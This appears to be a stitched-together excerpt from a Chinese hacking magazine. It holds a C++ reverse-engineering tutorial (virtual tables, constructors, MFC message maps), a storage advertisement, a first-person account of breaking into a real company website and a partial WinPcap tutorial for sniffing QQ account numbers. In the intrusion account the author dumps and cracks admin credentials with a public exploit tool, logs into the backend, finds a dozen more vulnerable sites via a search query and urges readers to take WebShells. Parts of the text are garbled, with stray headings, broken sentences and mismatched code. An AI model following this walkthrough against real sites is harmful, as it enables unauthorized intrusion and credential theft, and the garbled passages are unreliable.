.text:00401044  mov   [ebp-4], ecx
.text:00401047  mov   eax, [ebp-4]
.text:0040104A  mov   ecx, [ebp+8]
.text:0040104D  mov   [eax+4], ecx
.text:00401050  mov   esp, ebp
.text:00401052  pop   ebp
.text:00401053  retn
```

```cpp
#include <iostream>
using namespace std;

class A
{
public:
    int x;
    void fn()
    {
        cout << "函数A" << endl;
    }
};

class B:public A
{
public:
    void fn()
    {
        cout << "函数B" << endl;
    }
};

int main()
{
    A a;
    B b;
    A *p;
    p = &a;
    p->fn();
    p = &b;
    p->fn();
    return 0;
}
```

在调用成员函数 cls::fn(int) 之前就对 ecx 赋值过了，这里的 ecx 的值就是对象的 this 指针，所以这里第三句就把对象的 this 压入堆栈。然后下面两句，把 ecx 的值赋给 eax，使 eax 也变成对象的 this 指针；然后下面两句获取成员函数 cls::fn(int) 的参数 x，并把参数 x 的值放到 eax+4 指向的地址里。这时的 eax 是对象的 this 指针，那么 eax+4 就指向对象的第二个整型变量 b。

这里说明了一个类的特征，那就是会大量地使用 ecx 寄存器作为对象的 this 指针。就像刚才的代码，00401003 处首先把 ecx 压入堆栈，然后又在 00401006 处和 00401010 处两次取它的值。在逆向分析时，如果遇到 ecx 寄存器没有初始化就直接使用的情况，就像刚才代码的 00401043 处，直接把 ecx 压入堆栈，当前正处于类的成员函数之中；并且如果在调用某个函数前对 ecx 赋值，那就可以确定这个被调用的函数就是类的成员函数了。

在 C++ 中，虚函数是非常难理解的东西，笔者犹记得自己当年学习 C++ 的时候，一直都没有搞得太明白，一直到后来学了汇编、学了编译原理，才恍然大悟。本节通过一个实例，让读者从程序的反汇编代码中识别出虚函数，并能深入理解虚函数的实现方法。

虚函数的作用是实现动态联编，也就是在程序的运行阶段动态地选择合适的成员函数。在定义了虚函数后，可以在基类的派生类中对虚函数重新定义，派生类中重新定义的函数应与虚函数具有相同的形参个数和形参类型，以实现统一的接口、不同定义过程。如果在派生类中没有对虚函数重新定义，则它继承其基类的虚函数。

当程序发现虚函数名前的关键字 virtual 后，会自动将其作为动态联编处理，即在程序运行时动态地选择合适的成员函数。

在讨论虚函数之前，先来看看普通的成员函数的调用情况。C++ 代码：

简单地解释一下这段代码。这段代码定义了一个类 A，它有一个整型的公有成员变量 x，还有一个公有的成员函数 fn()，当成员函数 fn() 被调用的时候会输出一行字符串“函数A”。接下来定义了一个类 B，B 类是 A 类的派生类，它继承了类 A 中的整型成员变量 x，然后重新定义了成员函数 fn()，当类 B 中的成员函数 fn() 被调用的时候会输出一行字符串“函数B”。在主函数 main() 中定义了一个类 A 的实例 a 对象和一个类 B 的实例 b 对象，接下来定义了一个类 A 的对象指针 p，并把 a 对象的地址赋给指针 p，并用指针 p 调用成员函数 fn()，然后把 b 对象的地址赋给指针 p，再次使用指针 p 调用成员函数 fn()。

编译这段代码，运行结果如图 1 所示。

这里分明是两个不同的对象，为什么输出的内容都是“函数A”呢？看看程序的反汇编代码：

```asm
.text:00401000 push ebp
.text:00401001 mov  ebp, esp
.text:00401003 sub  esp, 0Ch
```

这里把栈顶向下压 0x0C，为定义的 a、b 对象以及 p 指针开辟空间。p 是指针，它是一个 32 位的地址，很显然它要占用 4 字节的内存，那么就只剩下 8 个字节留给对象 a、b，这就是说 a、b 对象都只存储了整型成员变量 x。那么它们的成员函数存储在哪里呢？一般来说，普通的类成员函数和普通函数是一样的，通过编译、链接，把成员函数 fn() 编译成 `?fn@A@@QAEXXZ`。这个名称中保存了重要的信息，比如所属类、参数类型、返回类型等。

```asm
.text:00401006 lea  eax, [ebp-8]
.text:00401009 mov  [ebp-4], eax
.text:0040100C mov  ecx, [ebp-4]
.text:0040100F call ?fn@A@@QAEXXZ ; A::fn(void)
```

这里取对象 a 的地址，赋值给指针 p，再传值给 this 指针，然后调用成员函数 A::fn(void)。

```asm
.text:00401014 lea  ecx, [ebp-0C]
.text:00401017 mov  [ebp-4], ecx
.text:0040101A mov  ecx, [ebp-4]
.text:0040101D call ?fn@A@@QAEXXZ ; A::fn(void)
```

这里取对象 b 的地址，赋值给指针 p，再传值给 this 指针，然后调用成员函数 A::fn(void)。

```asm
.text:00401022 xor  eax, eax
.text:00401024 mov  esp, ebp
.text:00401026 pop  ebp
.text:00401027 retn
```

这里的代码两次调用了成员函数 A::fn(void)，但是两次调用的都是固定地址，这样就很清楚地说明了普通的成员函数的调用是确定的；这里 p 是 A 类的指针，所以通过 p 指针调用的成员函数都是 A 类的成员函数。

现在来看看虚函数的情况。给 A 类的成员函数前加 virtual 描述符，把 A 类里的 fn0() 函数设置成虚函数，C++ 代码：

```cpp
#include <iostream>
using namespace std;

class A
{
public:
    int x;
    virtual void fn0()
    {
        cout << "函数A" << endl;
    }
};

class B : public A
{
public:
    void fn0()
    {
        cout << "函数B" << endl;
    }
};

int main()
{
    A a;
    B b;
    A *p;
    p = &a;
    p->fn0();
    p = &b;
    p->fn0();
    return 0;
}
```

这样 A 类的成员函数 fn0() 就变为一个虚函数了，其他部分都与刚才的代码相同。编译这段代码，运行结果如图 2 所示。

第一行输出了“函数A”，第二行输出了“函数B”，这就是虚函数的作用。看程序的反汇编代码，这里一步步调试跟过去：

```asm
01321000  push ebp
01321001  mov  ebp, esp
01321003  sub  esp, 14
```

一直 F8 跟踪到这里，这里把栈顶向下压 0x14。细心的读者会想到，同样是定义 a、b 对象和 p 指针，为什么前面的代码是向下压 0x0C，而到这里就变成了 0x14？这就是虚函数的特别之处了。在这里 p 是一个 32 位的指针，它占用了 4 个字节的内存，那么 a 对象和 b 对象就占了 0x10 个字节。

```asm
01321006  mov dword ptr [ebp-C], 01322168
0132100D  mov dword ptr [ebp-14], 01322168
01321014  mov dword ptr [ebp-14], 01322160
```

这里向刚才开辟的空间里传两个值，很明显这两个值都是地址。那这两个地址到底是什么东西？在 OD 的命令行窗口里输入命令“d 01322160”来查看处于地址 0x01322160 处的数据：

```asm
01322160  80 10 32 01 20 22 32 01 50 10 32 01 BA AF CA FD
```

很显然这里是一个地址表，0x01322160 指向地址 0x01321080，0x01322168 指向地址 0x01321050。那这两个地址又是什么东西？让 OD 跳转到这两个地址看看，如图 3、图 4。

现在已经很确定了，0x01321080 指向 A 类的成员函数 fn()，0x01321050 指向 B 类的成员函数 fn()。

当前 ebp 寄存器的值为 0x0017F9A4，现在看看栈里这 0x14 个字节的内容：

```asm
0017F990  01322160  // b对象的虚函数地址表
0017F994  0132305C  // 未经初始化的对象b的成员变量x
0017F998  01322168  // a对象的虚函数地址表
0017F99C  0132306C  // 未经初始化的对象a的成员变量x
0017F9A0  71242201  // p指针
```

接着看下面的代码：

```asm
0132101B  lea eax, dword ptr [ebp-C]
0132101E  mov dword ptr [ebp-4], eax
01321021  mov ecx, dword ptr [ebp-4]
01321024  mov edx, dword ptr [ecx]
01321026  mov ecx, dword ptr [ebp-4]
01321029  mov eax, dword ptr [edx]
0132102B  call eax
```

这几句代码，第一句用来获取对象 a 的地址；第二句把获取到的地址赋值给指针 p；第三句把指针 p 传入 ecx 作为 this 指针；第四句因为 a 对象的低 4 字节是 a 对象的虚函数地址表，所以这一句的用途就是获取 a 对象的虚函数地址表的地址；第五句和第三句相同，把指针 p 传入 ecx 作为 this 指针；第六句获取 a 对象的虚函数地址表中第一个虚函数的地址；第七句调用 a 对象的虚函数地址表中的第一个函数。

上面这几句代码和前面几句很像：第一句用来获取对象 b 的地址；第二句把获取到的地址赋值给指针 p；第三句把指针 p 传入 ecx 作为 this 指针；第四句获取 b 对象的虚函数地址表的地址；第五句把指针 p 传入 ecx 作为 this 指针；第六句获取 b 对象的虚函数地址表中第一个虚函数的地址；第七句调用 b 对象的虚函数地址表中的第一个虚函数；下面为退出 main() 函数做准备。

这里两次使用指针 p 调用了成员函数 fn()。从运行结果来看，第一次调用的是 A 类的成员函数 A::fn(void)，而第二次调用的是 B 类的成员函数 B::fn(void)，这和我们的分析结果完全符合。而发生这种情况的原因是：含有虚函数的类的前 4 字节有一个虚函数地址表。无论是直接调用还是使用指针调用，调用到的都是虚函数地址表中的地址，这样就不会发生调用派生类的成员函数时却执行了基类中的同名函数的情况了。

## 疯狂全运选（十七）——对C++程序的破解（下）

rejector

上一期讲了类的识别，这节课我们再来看看对于类构造函数和析构函数的识别。

前面在 Delphi 的时候讲过 Delphi 的初始化和结束化，对于 C++ 的类，它的初始化和结束化也是非常重要的。

构造函数是一种特殊的函数，它主要用来在创建对象时初始化对象，即为对象的成员变量赋初值。一般来说，类的初始化会调用类的构造函数来完成。C++ 语言为类提供的构造函数可自动完成对象的初始化任务：全局对象和静态对象的构造函数在 main() 函数执行之前就被调用，局部静态对象的构造函数是当程序第一次执行到相应的类定义语句时才开始被调用的。

析构函数与构造函数相反，当对象被销毁时，系统会自动执行析构函数来完成对象的结束化工作。析构函数往往用来做“清理善后”的工作。例如在建立对象时使用 new 开辟了一片堆内存空间，那么就应该在对象被销毁前，在析构函数中用 delete 释放这段堆内存空间。

在对程序进行逆向分析时，要识别出类的构造函数和析构函数是非常重要的。对于全局对象来说，它们的内存空间是在编译时就已经分配好的，它们处于可执行文件的数据段中；它们的构造函数是在 main() 函数被调用之前就被调用过的，而它们的析构函数则是在程序退出 main() 后才被调用的。对于局部对象来说，它们的内存是处于栈之中的，在对象被定义的地方调用对象的构造函数，当离开对象的作用域时调用它们的析构函数。

对于使用动态分配的对象来说，对象的内存处于堆之中，在调用 new() 函数的时候执行对象的构造函数，当调用 delete() 函数的时候执行对象的析构函数。看一段 C++ 代码：

```cpp
#include <iostream>
using namespace std;

class cls
{
private:
    int n;
public:
    int getn();
    cls(int);
    cls();
};

cls cls1(1);
int _tmain(int argc, _TCHAR* argv[])
{
    cls cls2(cls1.getn() + 1);
    cls *cls3 = new cls(3);
    delete cls3;
    return 0;
}

cls::cls(int x)
{
    this->n = x;
    cout << "构造函数" << this->n << endl;
}

cls::~cls()
{
    cout << "析构函数" << this->n << endl;
}

int cls::getn()
{
    return this->n;
}
```

简单来理解一下这段代码：它定义了一个 cls 类，cls 类有一个整型的私有成员变量 n，还有一个成员函数 cls::getn() 用来返回 cls::n 的值；类的构造函数有一个整型的参数 x，当调用类的构造函数时，类的私有成员变量 n 被设置为参数 x 的值，然后输出一行字符串“构造函数n”；当调用类的析构函数时，输出一行字符串“析构函数n”。程序定义了一个全局对象 cls1，并给它的构造函数传入参数 1；在 main() 函数中定义了一个局部变量 cls2，并给它的构造函数传入参数 cls1.getn()+1，也就是 2；定义了一个对象指针 cls3，用 new 给它分配堆内存，给它的构造函数传入参数 3，然后销毁这个对象，退出 main() 函数。

编译这段代码，运行结果如图 1。运行结果很确定地说明：全局对象 cls1 的构造函数最先执行，它的析构函数最后执行；局部对象 cls2 的构造函数在定义时执行，它的析构函数在离开作用域时执行；动态分配的对象 cls3 的构造函数在分配内存时执行，它的析构函数在销毁内存时执行。看看程序的反汇编代码：

```asm
.text:00401000 push ebp
.text:00401001 mov ebp, esp
.text:00401003 sub esp, 20h
.text:00401006 mov ecx, offset ?cls1@@3Vcls@@A ; this
.text:0040100B call ?getn@cls@@QAEHXZ
; cls::getn(void)
```

很明显这里调用了 cls::getn(void) 函数。注意这里传入的对象的 this 指针是一个全局变量，这说明对象是一个全局对象。以后遇到 this 指针是全局变量的情况，就可以说明 this 指针指向的对象就是全局对象。

```asm
.text:00401010 add eax, 1
.text:00401013 push eax ; x
.text:00401014 lea ecx, [ebp+cls2] ; this
.text:00401017 call ??0cls@@QAE@H@Z
; cls::cls(int)
```

这里定义了对象 cls2，传入它的 this 指针，然后调用它的构造函数，并给构造函数传递参数 cls::getn(void)+1。这里需要注意，传入的 this 指针是一个栈里的地址，这就说明了这是一个局部对象。

```asm
.text:0040101C push 4 ; unsigned int
.text:0040101E call ??2@YAPAXI@Z ; operator new(uint)
```

这里调用 new() 函数为 cls3 对象分配空间。

```asm
.text:00401023 add esp, 4
.text:00401026 mov [ebp+this], eax
.text:00401029 cmp [ebp+this], 0
.text:0040102D jz short loc_40103E
```

这里把 new() 函数返回的地址作为 this 指针存储起来，然后判断 new() 函数分配空间有没有成功；如果不成功，就跳过下面的一段代码。

```asm
.text:0040102F push 3 ; x
.text:00401031 mov ecx, [ebp+this]
```

# 主题乐园

```asm
.text:00401034  call    ??0cls@@QAE@H@Z ; cls::cls(int)
```

这里把 3 作为参数传递给 cls3 的构造函数。这里要注意了，如果以后遇到用 new() 函数来开辟一段空间，然后把 new() 函数返回的空间地址作为 this 指针调用程序的构造函数，那么就可以说明这个对象是使用动态分配方式定义的。

```asm
.text:00401039  mov    [ebp+var_1C], eax
.text:0040103C  jmp    short loc_401045
.text:0040103E  mov    [ebp+var_1C], 0
.text:00401045  mov    eax, [ebp+var_1C]
.text:00401048  mov    [ebp+cls3], eax
.text:0040104B  mov    ecx, [ebp+cls3]
.text:0040104E  mov    [ebp+var_14], ecx
.text:00401051  mov    edx, [ebp+var_14]
.text:00401054  mov    [ebp+var_10], edx
.text:00401057  cmp    [ebp+var_10], 0
.text:0040105B  jz     short loc_401083
```

这里计算前边的 new() 函数分配空间有没有成功，如果没有成功的话就跳过下面调用析构函数的代码。

```asm
.text:0040105D  mov    ecx, [ebp+var_10] ; this
.text:00401060  call   ??1cls@@QAE@XZ    ; cls::~cls(void)
```

这里传入 cls3 的 this 指针，然后调用析构函数。

```asm
.text:00401065  mov    eax, 1
.text:0040106A  and    eax, 1
.text:0040106D  jz     short loc_40107B
.text:0040106F  mov    ecx, [ebp+var_10]
.text:00401072  push   ecx
.text:00401073  call   ??3@YAXPAX@Z ; operator delete(void *)
```

这里调用 delete 函数来销毁前边用 new() 函数分配的空间。

```asm
.text:00401078  add    esp, 4
.text:0040107B  mov    edx, [ebp+var_10]
.text:0040107E  mov    [ebp+var_20], edx
.text:00401081  jmp    short loc_40108A
.text:00401083  mov    [ebp+var_20], 0
.text:0040108A  mov    [ebp+var_18], 0
.text:00401091  lea    ecx, [ebp+cls2] ; this
.text:00401094  call   ??1cls@@QAE@XZ
; cls::~cls(void)
```

这里传入 cls2 的 this 指针，然后调用析构函数。

```asm
.text:00401099  mov    eax, [ebp+var_18]
.text:0040109C  mov    esp, ebp
.text:0040109E  pop    ebp
.text:0040109F  retn
```

看到这里，有些读者可能会有疑问，要怎么找到全局对象的构造函数和析构函数。在这里可以通过对已知的全局对象的 this 指针设置内存访问断点，在程序第一次对全局对象的 this 指针取址时就是要调用全局对象的构造函数了。一般来说，全局对象的构造函数调用都会在 _initterm 函数中完成。

在 Windows 操作系统平台下，讲到 C++ 就不能不讲 MFC。MFC（Microsoft Foundation Classes）是一个微软公司提供的类库（class libraries），以 C++ 类的形式封装了 Windows 操作系统中的 API 函数，并且包含一个应用程序框架，以减少应用程序开发人员的工作量。其中包含大量 Windows 句柄封装类和很多 Windows 内建控件、组件的封装类。它实际上是微软提供的、用于在 C++ 环境下编写应用程序的一个框架和引擎，VC++ 是 Windows 下开发人员使用的专业 C++ SDK。

同 VCL 类似，MFC 是一种应用程序框架，随微软 Visual C++ 开发工具发布。目前最新版本为 10.0（截止 2011 年 3 月），并且发布了中文版。该类库提供一组通用的可重用类库供开发人员使用。大部分类均从 CObject 直接或间接派生，只有少部分类例外。

MFC 应用程序的总体结构通常由开发人员从 MFC 类派生的几个类和一个 CWinApp 类对象（应用程序对象）组成。MFC 提供了 MFC AppWizard 自动生成框架。

```cpp
使用 SDK 写一个窗口处理过程：
LRESULT CALLBACK DialogProc(HWND hWnd, UINT uMsg, WPARAM wParam, LPARAM lParam)
{
    switch (uMsg)
    {
        case WM_COMMAND:
            switch (LOWORD(wParam))
            {
                case IDC_BUTTON1:
                    MessageBoxW(hWnd, L"Title", L"Message", MB_OK);
                    break;
            }
    }
}
```

```asm
wWinMain(HINSTANCE__ *hInstance, HINSTANCE__ *hPrevInstance, wchar_t *lpCmdLine, int nCmdShow)

.text:004020FE _wWinMain@16 proc near
.text:004020FE hInstance     = dword ptr 8
.text:004020FE hPrevInstance = dword ptr 0Ch
.text:004020FE lpCmdLine     = dword ptr 10h
.text:004020FE nCmdShow      = dword ptr 14h
.text:004020FE mov edi, edi
.text:00402100 push ebp
.text:00402101 mov ebp, esp
.text:00402103 pop ebp
.text:00402104 jmp ?AfxWinMain@@...
.text:00402104 _wWinMain@16 endp
```

当这段代码执行时，按下窗口上 ID 为 IDC_BUTTON1 的按钮，就会弹出一个信息对话框，标题为“Title”，内容为“Message”。我们再来看看 MFC 的表达方式：

```cpp
BEGIN_MESSAGE_MAP(CnfcDlg, CDialog)
    ON_BN_CLICKED(IDC_BUTTON1, &CnfcDlg::OnBnClickedButton1)
END_MESSAGE_MAP()

void CnfcDlg::OnBnClickedButton1()
{
    AfxMessageBox(L"Message");
}
```

这里牵扯到了 MFC 的消息映射机制。MFC 使用 ClassWizard 帮助实现消息映射，它在源码中添加一些消息映射的内容，并声明和实现消息处理函数。在类的定义（头文件）里，它增加了消息处理函数声明，并添加一行声明消息映射的宏 DECLARE_MESSAGE_MAP。在类的实现（实现文件）里，实现消息处理函数，并使用 IMPLEMENT_MESSAGE_MAP 宏实现消息映射。一般情况下，这些声明和实现是由 MFC 的 ClassWizard 自动维护的。

编译这段 MFC 代码，使用 IDA 分析。看 IDA 分析出的 WinMain() 函数：

```asm
.text:004020FE ; Attributes: library function bp-based frame
.text:004020FE
.text:004020FE ; int __stdcall ...
```

可以看到在 WinMain() 函数中调用了 AfxWinMain() 函数。AfxWinMain() 是 MFC 程序的入口点，看看它的声明：

```cpp
int AFXAPI AfxWinMain(HINSTANCE hInstance,
    HINSTANCE hPrevInstance,
    LPTSTR lpCmdLine,
    int nCmdShow
)
```

AfxWinMain() 函数的参数和返回值都是一样的，而调用方式为 AFXAPI。看看 AFXAPI 的定义：

```cpp
#define AFXAPI __stdcall
```

再来看看 MFC 的消息映射 MESSAGE_MAP。MFC 中有这样的定义：

```cpp
BOOL CWnd::OnWndMsg(UINT message, WPARAM wParam, LPARAM lParam, LRESULT* pResult)
```

```cpp
//
const AFX_MSGMAP* pMessageMap;
pMessageMap = GetMessageMap();
//
if ((lpEntry = AfxFindMessageEntry(pMessageMap->lpEntries, message, 0, 0)) != NULL)
{
    ...
}
```

```asm
.text:78312F1F  jnb  short ...
.text:78312F21  push [ebp+arg_0]
.text:78312F24  push dword ptr [esi+4]
.text:78312F27  call AfxFindMessageEn...
```

这是 MFC 中的消息处理函数，看看它的反汇编代码：

```asm
.text:78312E91  mov  eax, [edi]
.text:78312E93  mov  ecx, edi
.text:78312E95  call dword ptr [eax+30h]
...
.text:78312F1B  push 0
.text:78312F1D  push 0
```

地址 0x78312E95 处，从 eax+30h 中取出一个地址并调用，这个被调用过程即为 GetMessageMap() 函数：

```asm
.text:004011E0  mov  eax, offset off_403628
.text:004011E5  retn
```

这里给 eax 赋值后返回，被赋予 eax 的值是 0x00403628：

```asm
.rdata:00403628  dd offset ?GetThisMessageMap@CDialog@@...
.rdata:0040362C  dd offset unk_403580
; pMessageMap->lpEntries
```

这样就可以看到原程序的 MESSAGE_MAP。

## 闹！！！400M数据存储空间免费用

千寻乱码

最近中国首创线下实体+线上网络进行服装批发、分销的平台——乐淘库与国内知名硬盘空间提供商——永硕 E 盘（YS168）正式达成战略合作关系。乐淘库与永硕将在产品、存储、广告方面进行全方位战略合作，通过双方强势平台之间的密切互动，为广大乐淘库商户提供精心整合的互联网服务。

## 数据包存储空间注册指南

- 1. 乐淘库商户登录后，点击后台的“淘宝数据包”菜单，如图1。
- 2. 在打开的页面中，点击“数据包存储空间”，如图2。
- 3. 填写相关信息，注意“档口号”中一定要填写正确的档口号，在此页面输入的档口号和密码为 ys168 存储空间的账号和密码，请妥为保管，如图3。
- 4. 生成数据包存储空间地址，如图4。
- 5. 点击进入数据包空间，可以在左侧的管理区输入刚才设置的账号和密码，对空间进行管理，如图5、图6。


OK，这样我们就可以使用这 400M 的存储空间了！

## 那些尘封的0Day，你们还好吗？

牟晓东

考虑再三，最终还是起了这么一个啰嗦的超长题目；当然，小菜我也是有感而发的。事情源于本周末给几个菜菜徒弟演示经典网站注入过程时发生的小意外。根据经验，企业网站的被注入几率相对而言比较大，于是很随机地在网上找了个广告公司（http://www.hxxxxxd.com）作为目标，是 Asp 的。先从首页的“新闻中心”点击一条记录，将带有“asp?id=xxx”形式的 URL（http://www.hxxxxxd.com/NewsView.asp?id=129）复制到啊D的“SQL注入检测”中进行检测，结果很不幸被提示“这个连接不能 SQL 注入！请试别的连接！：（”。再尝试复制到明小子的“SQL 注入猜解检测”中进行检测，又不幸被提示“检测失败，该 URL 不可以进行注入！”（如图1）。晕！工具很不给力（估计是本身所带的数据库需要更新的缘故），难道这就代表注入无门了吗？因水平所限，没再尝试手工注入猜解，怎么办呢？

继续在目标网站上转，希望能够找出点儿有用的信息，结果很失望；再查看首页的源文件，结果发现有这样一句 `content="广告设计,www.cyweb.cn"`，其中的“www.cyweb.cn”不会就是它的技术支持网站吧？访问一下，原来是鼎鼎大名的“尘月网络”，这下有戏了，因为该系统貌似被曝出过不少漏洞！问一下 Google 大叔，结果了解尘月网络企业智能管理系统曾在 2010 年上半年曝出过 0Day 漏洞，据说可以直接拿到管理员账号和 MD5 密码。不过，事情已经过去一年半多，这样的 0Day 漏洞还会存在么？尝试一下吧！打开下载的工具 Cy0dayTool.exe，在“Target:”（目标）处粘贴上目标网站的域名 http://www.hxxxxxd.com，然后点击后面的“Fuck”按钮，竟然很快就爆出结果了：“您现在位置 >> 关于我们 >> admin，469e80d32c0559f8”（如图2）。再点击工具下方的“MD5 Crack”按钮，将爆出的 MD5 密码粘贴到内嵌的 XMD5 网页中，顺利破解出其密码是“admin888”（如图3）。如果破解失败或是提示收费的话，可以选择其他的 MD5 破解网站进行尝试。

接下来就是访问其后台了，只须在目标网站域名之后添加“/admin_cy/zzm.asp”即可，分别输入用户名和密码，登录成功（如图4）！其实，到了这一步再继续拿 WebShell 也不是什么难事，有兴趣的可自己实战一下哈。现在想来，最初使用啊D和明小子进行注入猜解也不是万能的啊！不过，后台登录成功的喜悦并没有掩盖住我们想进一步探究这个 500 多天之前“0Day”漏洞的兴趣。


图2

根据尘月官网的提示，我们可以直接点击其首页右下角的“Google 查询我司更多用户”链接（其实就是在 Google 中构建“inurl:/Web-GuestView.asp”关键词来查找而已）来搜索那些使用“尘月网络企业智能管理系统”的网站，结果发现有 7020 条结果（很多是重复的），看来该系统还是有一定的普及率的。从头开始排查吧，不到半小时的时间，就发现了有十多个存在相同漏洞的网站，可以被直接“Fuck”出账号和 MD5 密码（如图5）！


图1


图4

一个已经被曝出一年半之久的所谓“0Day”漏洞，时至今日仍然可以被用来绝杀网站的后台登录，这样的事实的确很让人无语。

# 藏襞栖棚


图5

如果关键词是错误的话，那么这些使用尘月系统的企业网站网管的“不作为”更是错上加错，为什么不及时升一下级呢？抛开尘月 0Day 漏洞不说，我们没有理由不相信其他很多 0Day 漏洞利用程序仍然是“活”的，肯定也会拿下不少类似的目标网站的，因为懒惰且不负责任的网管实在是太多太多了。当然这也不可谓不是好事，我们这些小菜不就拥有了不少进行实战的练手机会了吗？以后，不用一看到是几个月前的 0Day 漏洞利用程序就觉得毫无希望，试一试，相信总会有“好心”的网管在等着你去黑他一把的，^-^，嘿嘿！还等什么呢？上 Google，搜 0Day，开工拿 WebShell 吧！


图3

（文中涉及的相关程序本期光盘已收录）

## 通过嗅探获取本机运行的QQ号

枯叶

嗅探器对于网络管理人员来说，可以分析局域网中传输的数据和协议，通过协议和数据分析可以检测出网络的异常情况。对于黑客来说，同样可以使用嗅探器来获取局域网中的数据，从而获得机密、隐私等信息。

我们本文主要介绍 WinPcap 的基础开发，通过开发一个嗅探工具来得到本机运行的所有 QQ 号。

## 原理篇

在我们进行动手开发之前，我们先用 Wireshark 来对 QQ 的通信进行分析。我们这里使用的 Wireshark 版本号为 1.6.2。

- 1. 我们打开 Wireshark 这款工具，可以看到软件中会列出本机的所有网卡，如图1所示的本机所有网卡列表。
- 2. 我们选择要进行嗅探的网卡开始嗅探。在我们选择了要进行嗅探的网卡以后，该网卡被设置为混杂模式。（小提示：混杂模式（Promiscuous Mode）是指一台处于混杂模式的网卡能够接收所有经过它的数据流，而不论该数据流的目的地址是否是该网卡。）
- 3. 在过滤框中输入过滤条件“oicq”，当输入了过滤条件以后，我们的嗅探器将只嗅探关于 QQ 相关的协议和数据，如图2所示的过滤条件。
- 4. 当设置好过滤协议后，在嗅探列表中会出现很多被嗅探到的记录。在选中某个嗅探记录后，在嗅探记录的下方会出现对该嗅探记录的协议解析，在软件的最下方将显示出该嗅探记录的二进制数据，如图3所示的嗅探记录及信息。


图1


图2


图3

当我们选中某条嗅探记录以后，我们就可以对嗅探记录的协议解析和嗅探记录的二进制数据进行分析了。我们随便选中一条嗅探记录，如图4所示的协议解析及二进制信息。我们对该部分进行分析。


图4

在图4中选中的最上面部分为IP协议头（IP是Internet Protocol的缩写），在IP协议头中，我们主要是通过IP协议头判断它上层协议的类型。从图4中可以看出，它的上层协议类型为UDP类型，协议类型的编号为17。

在IP协议头的下面部分为UDP协议头（UDP是User Datagram Protocol的简称），在UDP协议头中需要得到源端口号和目的端口号。从图4中可以看出，本机源端口号为4004，远程目的端口号为8000。QQ服务器通信端口多为UDP 8000端口，结合上下文可知当前QQ号经过多个端口后对应到4004端口。

经过了4个QQ号了，因此端口号为4004号端口了。也就是说当前QQ号为第5个被打开的QQ号。

在协议解析的最下面就是对QQ协议头的一个解析了。最先看到的“Flag:oicq packet(0x02)”就是QQ协议头的标识，0x02标识该协议头是QQ的协议头。后面的数据按QQ协议头解析，而在Data项中看到的就是QQ号码了。

在最下面的二进制数据中，选中的位置为QQ号码的二进制数据，这个位置是相对于QQ协议头的起始位置，如图5所示的QQ号码二进制偏移位置。


图5

## 准备篇

有了前面的关于协议的分析，我们来开发一个类似的捕获本机运行QQ号的工具，在程序中要用到Winpcap开发包。Winpcap（Windows packet capture）是Windows平台下免费的公共网络访问系统，目的是为Win32应用程序提供访问网络底层的能力。

Winpcap功能非常强大，很多工具基于它开发，比如Cain和Wireshark等。其作用主要是捕获网络数据包、过滤网络数据包、分析网络数据包和存储网络数据包等。编程时需要Winpcap运行包和开发包（驱动、DLL、头文件、LIB等）。


图6

要获得Winpcap运行所需的SYS文件和DLL文件，就需要安装Winpcap的运行包。该目前最新的版本是Winpcap 4.1.2，大家可以到它的官方网站进行下载，下载后直接进行安装就可以了，安装步骤比较简单，这里就不进行介绍了。

除了要支持Winpcap运行的SYS文件和DLL文件以外，还需安装Winpcap的头文件和静态库文件。我们只要下载了它的开发包就可以了。目前开发包的最新版本也是Winpcap 4.1.2。下载好开发包以后，直接解压缩就可以了。


图7

安装好运行包和开发包以后，我们的东西就已经齐备了。不过，我们需要在我们的开发环境中进行配置，我们这里选择的开发环境是VC 6.0。配置的步骤如下：

- 第一步，启动VC 6.0程序。
- 第二步，选择菜单栏的“Tools”->“Options”。
- 第三步，在“Options”界面中选择“Directories”选项卡。
- 第四步，添加头文件的路径和静态库的路径，如图6所示和如图7所示的配置选项。

将以上配置完成后，就可以开始我的开发工作了。

## 数据结构及流程篇

我们终于可以进入开发阶段了，程序的开发首先要确定一些数据结构，然后再确定我们的程序流程。数据结构是根据我们前面对原理的分析来进行确定的，而程序的流程主要是依赖于Winpcap所提供的开发函数了。只要我们将我们的数据结构和我们的流程搭配起来，我们的软件就算是大功告成了。

我们先来确定所需要的数据结构。回顾一下我们在原理篇中提到的内容，我们的步骤是根据IP协议头得到它上层的协议类型，如果是UDP协议的话，就判断UDP的源端口号或者是目的端口号，如果源端口号或目的端口号为8000号端口，那么我们就分析应用层协议的开始字符号是否为0x2，如果是的话，那么就说明是QQ了。

按照原理的描述，我们就要定义IP协议头和UDP协议头，还有QQ协议标识的宏定义。IP协议头、UDP协议头和QQ协议标识定义如下：

```c
/* IPv4 header */
typedef struct ip_header
{
    u_char  ver_ihl;
    u_char  tos;
    u_short tlen;
    u_short identification;
    u_short flags_fo;
    u_char  ttl;
    u_char  proto;          // 上层协议标识
    u_short crc;
    u_char  saddr[4];       // 源地址
    u_char  daddr[4];       // 目的地址
    u_int   op_pad;
} ip_header;

#define UDP_SIGN 17

/* UDP header */
typedef struct udp_header
{
    u_short sport;          // 源端口号
    u_short dport;          // 目的端口号
    u_short len;
    u_short crc;
} udp_header;

#define QQ_SIGN '\x02'      // QQ协议标识
#define QQ_SER_PORT 8000    // QQ服务器所用端口号
#define QQ_NUM_OFFSET 7     // QQ号在QQ协议头中的偏移
```

有了数据结构以后，我们来看Winpcap对于嗅探的函数使用流程，其使用流程如下：

- `pcap_findalldevs()`：查找机器上所有可用的网络接口。
- `pcap_open_live()`：以混杂模式打开一个网络接口进行数据包捕获。
- `pcap_compile()`：编译过滤规则。
- `pcap_setfilter()`：设置过滤规则。
- `pcap_freealldevs()`：释放网络接口链表中的所有网络接口。
- `pcap_loop()`：循环捕获网络数据包，直到遇到错误或满足退出条件。每捕获一个数据包就调用CALLBACK指示的回调函数。

## 代码实现篇

确定了数据结构和函数的使用流程，接下来我们只要将数据结构和我们的流程结合起来就可以了。我们的代码主要有两个函数，一个是按照流程进行的主函数，一个是解析协议的回调函数，主函数的代码如下：

```c
int main()
{
    pcap_if_t *alldevs;
    pcap_if_t *d;
    int inum;
    int i = 0;
    pcap_t *adhandle;
    char errbuf[PCAP_ERRBUF_SIZE];
    u_int netmask;
    char packet_filter[] = "ip and udp";
    struct bpf_program fcode;

    pcap_findalldevs(&alldevs, errbuf);

    for (d = alldevs; d; d = d->next)
    {
        printf("%d.%s", ++i, d->name);
        if (d->description)
            printf(" (%s)\n", d->description);
        else
            printf(" (No description available)\n");
    }

    printf("Enter the interface number (1-%d):", i);
    scanf("%d", &inum);

    for (d = alldevs, i = 0; i < inum - 1; d = d->next, i++);

